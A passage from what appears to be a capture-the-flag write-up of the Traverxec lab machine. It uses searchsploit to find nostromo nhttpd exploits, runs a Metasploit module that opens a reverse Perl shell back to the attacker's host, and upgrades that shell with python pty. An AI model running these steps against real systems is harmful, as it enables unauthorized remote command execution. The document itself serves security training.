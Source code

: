 Seems like an online portfolio? There aren't any pages to visit but there was a form which submits to a `empty.html`, which contained nothing useful.

Lets see if we can find any exploits using `searchsploit`.
{% highlight bash %}
$ searchsploit nostromo
-------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                            |  Path
                                                                          | (/usr/share/exploitdb/)
-------------------------------------------------------------------------- ----------------------------------------
Nostromo - Directory Traversal Remote Command Execution (Metasploit)      | exploits/multiple/remote/47573.rb
nostromo nhttpd 1.9.3 - Directory Traversal Remote Command Execution      | exploits/linux/remote/35466.sh
-------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
{% endhighlight %}

# Exploitation

Awesome, lets use the Metasploit exploit to get a shell.

{% highlight bash %}
$ msfconsole
msf5 > use exploit/multi/http/nostromo_code_exec
msf5 exploit(multi/http/nostromo_code_exec) > set LHOST 10.10.XX.XX
LHOST => 10.10.XX.XX
msf5 exploit(multi/http/nostromo_code_exec) > set RHOSTS traverxec.htb
RHOSTS => traverxec.htb
msf5 exploit(multi/http/nostromo_code_exec) > set ForceExploit true
ForceExploit => true
msf5 exploit(multi/http/nostromo_code_exec) > run 

[*] Started reverse TCP handler on 10.10.XX.XX:4444 
[*] Configuring Automatic (Unix In-Memory) target
[*] Sending cmd/unix/reverse_perl command payload
[*] Command shell session 1 opened (10.10.XX.XX:4444 -> 10.10.10.165:37316) at 2019-12-21 04:21:24 -0500

{% endhighlight %}

There's no prompt but lets try to upgrade to a `tty` shell.

{% highlight bash %}
python -c 'import pty; pty.spawn("/bin/bash")'
www-data@traverxec:/usr/bin$
{% endhighlight %}

# Enumeration (2)
